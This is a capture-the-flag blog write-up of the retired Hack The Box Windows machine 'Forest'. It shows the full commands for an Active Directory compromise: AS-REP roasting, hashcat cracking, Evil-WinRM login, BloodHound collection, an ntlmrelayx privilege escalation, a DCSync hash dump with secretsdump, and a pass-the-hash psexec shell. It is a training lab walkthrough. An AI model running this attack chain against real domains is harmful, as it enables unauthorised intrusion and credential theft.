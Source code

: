 ```yaml
---
layout: default
---
```

## Forest
###### Retired March 2020
![](https://www.hackthebox.eu/storage/avatars/7dedecb452597150647e73c2dd6c24c7.png)

This is likely the most involved "Easy" Windows machine I've done so far but it was a lot of fun. A sample list of concepts before we get into it:
+ Kerberoasting
+ Bloodhounding
+ NTLM Relay
+ DCSync
+ Pass the Hash

Let's get started. As usual, nmap first

```bash
nmap -T4 -p- -A -oN nmap.results forest.htb
```

![](https://yaboygmoney.github.io/htb/images/forest/nmap.png)

Lots going on here. Notably SMB (445), Kerberos (88), LDAP/S (389/636), and WinRM (5985). I launch enum4linux to start pulling back information

```bash
enum4linux -a forest.htb
```

I was given a lot of information from this. First, we can see that the domain name is "HTB".

![](https://yaboygmoney.github.io/htb/images/forest/domainName.png)

In addition to that, I get a list of usernames (ones of particular interest are highlighted).

![](https://yaboygmoney.github.io/htb/images/forest/userList.png)

With the given usernames discovered, I put them into a wordlist by copying the output above into users.txt and then running

```bash
cat users.txt | awk -F ":" '{print $5}' | awk -F " " '{print $1}' > userlist.txt
```

The result is a cleaned up list

![](https://yaboygmoney.github.io/htb/images/forest/userlist2.png)

Then I started to try and ASREPRoast my userlist. [This article](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/) has been really beneficial in learning how Kerberos actually works and how to get it to help my activities. The syntax is as follows:

```bash
./GetNPUsers.py [The Domain Name]/ -usersfile [filename of your userlist] -no-pass -dc-ip [the IP address of the DC]
```

So for this situation, the command is

```bash
./GetNPUsers.py HTB/ -usersfile userlist.txt -no-pass -dc-ip forest.htb
```

![](https://yaboygmoney.github.io/htb/images/forest/roasted.png)

It was a bunch of nothing until the very last user: svc-alfresco.

Because Kerberos pre-authentication was disabled for this account, we are able to send an AS_REQ (request) for a ticket granting ticket on behalf of this user to the Key Distribution Center (the DC) and get the AS_REP (response) that has enough encrypted data for hashcat to get us the password.

I took the hash kicked out from kerberoasting and ran it through hashcat against the rockyou wordlist

```powershell
hashcat.exe -a -0 -m 18200 hash.txt rockyou.txt -O -o heresthepw.txt
type heresthepw.txt
```

![](https://yaboygmoney.github.io/htb/images/forest/hashcat.png)

![](https://yaboygmoney.github.io/htb/images/forest/cracked.png)

With a username and password in hand, I spun up [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) and logged in

```bash
evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```

User flag was hanging out on svc-alfresco's desktop

![](https://yaboygmoney.github.io/htb/images/forest/user.png)

Now it's time to find our way to administrator. The quickest way to do that in an AD environment is to unleash the hound. I downloaded the [SharpHound.ps1 ingestor](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1) to my local machine and then utilized Evil-WinRM's upload feature to get it onto the machine.

```powershell
upload SharpHound.ps1
Import-Module ./SharpHound.ps1
Invoke-Bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
```

A few seconds later I had a zip file containing information about the domain.

![](https://yaboygmoney.github.io/htb/images/forest/hounded.png)

Then just pull back the zip with Evil-WinRM's download utility

```powershell
download 20200320080006_BloodHound.zip
```

Now I need to get Bloodhound ready to ingest this data. Step 1 of that is to spin up neo4j. Step 2 is to spin up bloodhound's UI.

```bash
neo4j console
bloodhound
```

Then it's as easy as dragging and dropping your zip file into the bloodhound interface. After a few seconds, Bloodhound is ready to show us the way. I typically click on "Queries" and then select "Find Shortest Path to Domain Admins". The result is something like

![](https://yaboygmoney.github.io/htb/images/forest/path.png)

The path shows that from my current svc-alfresco account, I can use my membership of the group "Service Accounts". Every member of "Service Accounts" inherits permission of the "Privileged IT Accounts" group. Every member of the "Privileged IT Accounts Group" is also a member of "Account Operators". "Account Operators" enjoy all of the permissions associated with "Exchange Windows Permissions", which is essentially [all permissions](https://duo.com/decipher/microsoft-exchange-users-get-admin-rights-in-privilege-escalation-attack). 

> The Exchange Windows Permissions group has WriteDacl access on the Domain object in Active Directory, which means any member of the group can modify the domain privileges, such as the ability to perform DCSync, or synchronization operations by Domain Controllers. When authentication is relayed to LDAP, objects in the directory can be modified to grant higher levels of access, such as performing DCSync to replicate users’ hashed passwords in Active Directory. An attacker with those hashed passwords can impersonate any users on the network and authenticate to any service using NTLM or Kerberos authentication.

Spoiler alert: that's exactly what I'm about to do.

In a shared environment, it's best to create a new user, because we are going to promote that user and we don't want to spoil the learning environment by just making svc-alfresco all powerful right off the bat.

```powershell
$pass = ConvertTo-SecureString "password" -AsPlainText -Force
New-ADUser ybgm -AccountPassword $pass -Enabled $True
```

I'm also going to use svc-alfresco's permissions to add my new user to the "Exchange Windows Permissions" group.

```powershell
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members ybgm
```

I also need to run [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to relay the credentials and escalate my user to be in a position to fire off a DCSync.

```bash
./ntlmrelayx.py -t ldap://forest.htb --escalate-user ybgm
```

![](https://yaboygmoney.github.io/htb/images/forest/server.png)

This command spins up an HTTP server. Once I navigate to my localhost, the credentials will be requested and then relayed via LDAP to the DC.

![](https://yaboygmoney.github.io/htb/images/forest/relay.png)

Back on the terminal, we can see that the credentials are relayed via LDAP. Because I added my user 'ybgm' to the Exhange Windows Permissions group, the user has "Modifying domain ACL skills". By leveraging this, my user is given the replicate changes ability needed to perform a DCSync.

![](https://yaboygmoney.github.io/htb/images/forest/worked.png)

Now I can run [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to perform a DCSync and pull back hashes.

```bash
./secretsdump.py htb.local/ybgm:password@forest.htb -just-dc
```

![](https://yaboygmoney.github.io/htb/images/forest/secretsdump.png)

With the admin hash, I can use [PSExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) to get an administrative shell on the Domain Controller.

```bash
./psexec.py htb.local/administrator@forest.htb 'powershell.exe' -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

![](https://yaboygmoney.github.io/htb/images/forest/root.png)

I want to end with a shoutout to the user [SmoZy](https://www.hackthebox.eu/profile/134223) who helped me get past a syntax hurdle I had with Bloodhound that allowed me to push forward. The HTB community is awesome and be sure to help when you can.
